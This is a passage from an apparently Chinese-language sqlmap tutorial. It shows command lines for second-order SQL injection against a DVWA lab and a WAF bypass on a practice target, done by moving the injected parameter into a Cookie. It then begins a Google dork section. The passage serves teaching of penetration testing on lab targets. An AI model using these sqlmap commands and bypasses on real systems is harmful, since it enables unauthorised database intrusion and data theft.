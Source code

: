 ```http
Connection: close

id=1&Submit=Submit
```

```
┌──(root㉿kali)-[~]
└─# sqlmap -r "http.txt" --second-url "http://192.168.1.76/DVWA/vulnerabilities/sqli/" --level 5 --risk 2 -f -b --beep
```

> 这里会在新的窗口提交参数，需要使用二阶注入，请求头是在新的窗口提交参数后拦截的，`--second-url` 指向的是源目标网址

lmpossible

**封神榜**

遇到阻难！绕过WAF过滤！

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://g8wepfcp.ia.aqlab.cn/shownews.asp?" --cookie "id=171" --level 5 --risk 2 -f -b --beep
```

> 这里的 `WAF` 会对 `GET` 和 `POST` 进行过滤，可以将参数放在 `Cookie` 中绕过
>
> 另外，在 `Microsoft Access` 中无法获取数据库，要从数据表开始

### 2.8 Google dork

启动 `Clash for Windows` ，开启 `Allow LAN` 

![启动 Clash for Windows ，开启 Allow LAN](./../../../../images/Sqlmap/%E5%90%AF%E5%8A%A8%20Clash%20for%20Windows%20%EF%BC%8C%E5%BC%80%E5%90%AF%20Allow%20LAN.png)
